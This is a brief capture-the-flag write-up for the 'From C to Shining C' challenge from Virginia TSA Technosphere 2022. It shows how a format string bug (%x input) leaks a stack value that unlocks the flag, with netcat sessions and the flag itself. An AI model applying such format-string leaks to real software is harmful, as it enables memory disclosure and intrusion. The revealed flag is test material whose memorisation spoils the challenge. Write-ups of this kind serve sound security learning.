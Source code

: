 # From C to Shining C (100)
#### programming - Virginia TSA Technosphere 2022 CTF

## Challenge description:
> The elves have mistakenly put a [string format vulnerability](https://owasp.org/www-community/attacks/Format_string_attack) that might reveal a flag in this program.
> 
> Download file: forgot to save file :(

## Solution 
We are given a binary and information to connect to a server with netcat.

After marking it as executable with `chmod +x fromctoshiningc`, running the binary asks for a name and a magic number. 

```
$ ./fromctoshiningc
What is your name? 
```

We can leak data from the stack using %x, which is returned to us.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
```

Reverse engineering the binary reveals that converting the provided hex address to decimal allows us to access its content. We can try this on the server for the real flag.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
42424242
*************
```

<details> 
    <summary>Flag</summary>
flag{cnoevil}
</details>